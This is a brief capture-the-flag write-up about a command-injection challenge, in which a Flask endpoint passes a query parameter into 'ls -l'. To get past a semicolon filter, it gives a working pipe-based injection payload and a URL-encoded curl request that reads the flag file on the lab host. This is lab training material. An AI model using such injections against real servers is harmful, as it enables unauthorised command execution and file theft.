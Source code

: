 # CMDi 2

```shell
cat /challenge/server
```

The Flask app takes a directory as query param (`/stage?output-path`) and executes `ls -l {output-path}`
Can't use previous solution as the server removes ";"

Executing this:

```shell
ls -l / | grep "flag" | awk '{print "/" $NF}' | xargs cat
```

Lists contents of `/`, takes the line with `flag`, prints only the last word "flag" along with a `/`, use this output as an argument of cat

Start the server and use curl:

```shell
curl http://challenge.localhost:80/stage?output-path=%2F%20%7C%20grep%20%22flag%22%20%7C%20awk%20%27%7Bprint%20%22%2F%22%20%24NF%7D%27%20%7C%20xargs%20cat
```
